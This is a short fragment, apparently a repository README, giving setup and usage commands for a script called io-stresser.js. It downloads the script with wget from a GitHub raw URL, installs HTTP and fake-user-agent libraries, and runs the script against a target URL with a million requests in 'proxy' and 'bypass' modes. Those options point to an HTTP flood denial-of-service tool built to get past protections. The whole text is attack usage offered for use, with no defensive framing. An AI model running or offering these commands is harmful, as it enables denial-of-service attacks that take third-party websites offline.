 wget https://raw.githubusercontent.com/FastVN/D/main/io-stresser.js
npm install axios
npm install request
npm install fake-useragent
node io-stresser.js
node io-stresser.js https:// 1000000 5 proxy
node io-stresser.js https:// 1000000 5 bypass
